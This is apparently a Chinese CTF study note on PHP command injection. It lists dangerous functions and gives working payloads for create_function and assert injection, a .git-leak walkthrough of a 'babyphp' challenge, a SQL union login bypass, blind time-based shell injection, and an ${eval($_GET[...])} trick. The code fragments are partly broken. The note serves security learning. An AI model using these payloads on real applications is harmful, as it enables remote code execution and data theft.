





命令注入
额 没啥，类似于一句话木马的官方话吧
常见php命令注入函数
eval(),，assert(), system()，preg_replace(), create_function, call_user_func, call_user_func_array，array_map()，反引号，ob_start()，exec()，shell_exec()，passthru()，escapeshellcmd()，popen()，proc_open()，pcntl_exec()
eval()函数可以把字符串按照PHP代码来执行，换句话说，就是可以动态地执行PHP代码，使用eval函数需要注意的是：输入的字符串必须是合法的PHP代码，且必须以分号结尾。
1 |
|
poc/index.php?arg=1;phpinfo()
专门聊一下create_function命令注入
核心
1 | 如果可控在第一个参数，需要闭合圆括号和大括号：create_function('){}phpinfo();//', ''); |
create_function参数注入
1 |
|
poc
1 | ?act=\create_function&arg=){}system('cat /ffflll4g');// |
ps：2020/5/30 校赛 ：发现用其他函数可以直接执行，支持两个参数的，比如readfile,highlight_file
create_function内容注入
1 |
|
poc
1 | ?action=\create_function&arg=return 2333;}phpinfo();// |
jarvios的babyphp：
jarvios的babyphp

可以目录扫描一下，有.git文件夹泄露

通过githack还原源码

审计发现下面漏洞
1 | $file = "templates/" . $page . ".php"; |
首先加上前缀后缀，第二行规则不允许出现两个点，.php已经出现了一个点，所以page参数允许出现点，第二行strpos(xxx,zzz)在xxx中寻找zzz，如果成功返回字符位置，如果没有则返回false就可以注入了
比如执行phpinfo();
我们传入page=') or phpinfo();#,如此$file=templates/') or phpinfo();#.php,为了讲解我没转义，大家需要自己先urldecode
然后下面变成
1 | assert("strpos('templates/') or phpinfo();#.php', '..') === false") or die("Detected hacking attempt!"); |
我觉得不行啊，#后面注释后句子变成
1 | assert("file_exists('templates/') or phpinfo(); |
都没闭合
这谁顶得住的，我自己构造page=') or phpinfo();")#,缺报错了，黑人问号jpg,我觉得应该是我有语法错误了
！！！以上理解是错误的！！
从这句分析
1 | assert("strpos('templates/') or phpinfo();#.php', '..') === false") or die("Detected hacking attempt!"); |
其实其中的#号没有将后面的注释只是将语句注释了，所以同义为
1 | assert("strpos('templates/') or phpinfo();") or die("Detected hacking attempt!"); |
2333 awsl-所以遇到问题本地多测试一下很重要-ε=ε=ε=┏(゜ロ゜;)┛
然后就可以为所欲为
1 | page=') or print_r(file_get_contents('templates/flag.php'));# |

另外一种构造
1 | page='.system("{PHPCODE}").' |
比如
1 | page='.system("ls").' |
ps:system 函数是不需要输出的，只要执行了就会输出来,
其实发现注入第二个也是可以的-php真玄学

神塔么shell注入
一个题先绕过
1 | $sql="SELECT username,password FROM admin WHERE username='".$username."'"; if (!empty($row) && $row['password']===md5($password)){ } |
payload
1 | username=admin' union select 1,md5(1)%23 |
然后出现一个shell注入，命令远程会执行，但是没有回显，只有那个一个进程的，盲猜应该是ps -aux | grep {命令}

方法1当然可以直接反弹shell远程，还有一个方法就是shell注入,需要修改一下PHPSESSID
注入语句
1 | c=123;a=`ls`;b='a';if [ ${a:0:1} == $b ];then sleep 2;fi |
1 | import requests |
二、love_math
https://github.com/glzjin/ciscn_2019_qual_love_mathhttp://2fc3da22-d2ec-46f7-8f37-7c134998c844.node3.buuoj.cn/?c=($pi=base_convert)(22950,23,34)($pi(76478043844,9,34)(dechex(109270211243818)))
“百度杯”CTF比赛 十月场 hash
通过别的途径获得源码 得到
1 |
|
首先 addslashes() 函数
在每个双引号（”）前添加反斜杠：
1 | <?php |
poc
1 | ?val=${eval($_GET[a])}&a=echo `ls`; |
192.168.0.0
172.16.0.0
10.0.0.0
127.0.0.0
localhost
`X-Forwarded-For对应$_SERVER['HTTP_X_FORWARDED_FOR']`